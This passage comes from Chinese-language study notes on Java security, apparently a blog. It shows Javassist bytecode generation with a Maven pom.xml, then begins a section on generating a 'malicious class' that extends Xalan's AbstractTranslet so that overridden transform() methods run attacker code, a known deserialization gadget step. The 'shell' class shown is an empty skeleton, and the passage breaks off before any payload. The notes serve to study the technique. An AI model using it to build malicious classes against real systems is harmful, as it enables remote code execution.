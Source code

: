 ```java
        // 将该方法添加进Person中
        ctClass.addMethod(ctMethod);

        ctClass.writeFile("out"); 
    }

}
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.summery233</groupId>
    <artifactId>javassist-create-class</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.27.0-GA</version>
        </dependency>
    </dependencies>
</project>
```

运行程序会在当前项目目录下生成 `out/javassist`

![image-20241104151530154](http://cdn.ayusummer233.top/DailyNotes/202411041515500.png)

---

##### 使用 javassist 生成恶意 class

在如下场景中, 我们的恶意类需要继承`AbstractTranslet`类，并重写两个`transform()`方法。否则编译无法通过，无法生成`.class`文件。

- `AbstractTranslet` 是 Apache Xalan 库中的一个抽象类，Xalan 是一个用于处理 XSLT 转换的库。改类提供了一些基础设施，用于在 XSLT 转换过程中执行特定的操作。
- 在生成恶意类时，重写 `transform()` 方法可以插入恶意代码，使得在调用这些方法时执行攻击者指定的恶意操作。
- 如果不重写这些方法，编译器会认为类没有实现抽象方法，从而导致编译错误，无法生成有效的 `.class` 文件。

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
 
public class shell extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
 
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
 
```